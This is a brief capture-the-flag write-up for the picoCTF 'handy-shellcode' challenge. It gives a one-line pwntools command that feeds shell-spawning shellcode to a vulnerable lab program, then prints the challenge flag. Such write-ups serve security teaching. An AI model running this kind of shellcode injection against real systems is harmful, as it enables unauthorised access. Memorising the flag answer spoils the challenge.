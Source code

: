 # handy-shellcode

## Question
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. Source.

## Solution
Same as what it says on the tin, this program execute whatever shellcode you enter. We can use the shellcode form pwntools to do this.
`python -c "from pwn import *;p = process('./vuln');p.sendlineafter('\n', asm(shellcraft.i386.linux.sh()));p.interactive()"`

By typing the above, we spawn a shell with root priviledge and `cat flag.txt`.

Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`